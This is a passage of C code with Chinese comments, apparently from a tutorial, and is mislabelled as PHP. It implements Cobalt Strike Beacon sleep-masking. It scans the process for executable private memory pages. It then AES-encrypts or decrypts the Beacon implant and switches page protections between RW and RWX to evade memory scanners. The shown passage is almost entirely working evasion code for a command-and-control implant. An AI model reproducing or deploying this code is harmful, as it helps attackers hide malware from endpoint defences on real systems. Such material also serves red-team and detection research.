 ```php
    DWORD oldProt;  
​  
    // 将内存页设置为可读可写  
    VirtualProtect(Beacon.address, Beacon.size, PAGE\_READWRITE, &oldProt);  
    printf("Beacon已加密并将内存页属性调整为 RW.\\n");  
}  
​  
void My\_Decrypt()  
{  
    // 定位到真正的Beacon内存页  
    MemoryAttrib Beacon \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
    DWORD bufSize \= Beacon.size;  
    unsigned char\* buffer \= (unsigned char\*)(Beacon.address);  
    int bufSizeRounded \= (bufSize \- (bufSize % sizeof(unsigned int)));  
    //int bufsize = bufSize % sizeof(unsigned int);  
​  
    // 对Beacon进行加密或解密  
    //for (int i = 0; i < bufSizeRounded; i++)  
    //{  
    //  buffer\[i\] ^= memoryInfo.key;    // 简单的异或加解密  
    //}  
    AESDecode(buffer, bufSizeRounded);  
    //AESDecode(buffer,bufsize);  
​  
    DWORD oldProt;  
​  
​  
        // 将内存页设置为可读可写可执行  
    VirtualProtect(Beacon.address, Beacon.size, PAGE\_EXECUTE\_READWRITE, &oldProt);  
    printf("Beacon已解密并内存页属性调整为 RWX.\\n");  
}  
​  

/\*  
    内存扫描  
\*/  
​  
void ScanMemoryMap()  
{  
    // 内存块信息结构体  
    MEMORY\_BASIC\_INFORMATION mbi;  
​  
    LPVOID lpAddress \= 0;  
    HANDLE hProcess \= OpenProcess(MAXIMUM\_ALLOWED, FALSE, GetCurrentProcessId());  
​  
    int\* index \= &memoryInfo.index;  
​  
    while (VirtualQueryEx(hProcess, lpAddress, &mbi, sizeof(mbi)))  
    {  
        // 查找可读可写可执行内存页  
        if (mbi.Protect \== PAGE\_EXECUTE\_READWRITE || mbi.Protect \== PAGE\_EXECUTE && mbi.Type \== MEM\_PRIVATE)  
        {  
​  
            // 保存内存信息  
            memoryInfo.memoryPage\[\*index\].address \= mbi.BaseAddress;  
            memoryInfo.memoryPage\[\*index\].size \= (DWORD)mbi.RegionSize;  
            printf("BaseAddr = %p\\n", memoryInfo.memoryPage\[\*index\].address);  
            (\*index)++;  
​  
            if ((\*index) \>= 3)  
                break;  
        }  
```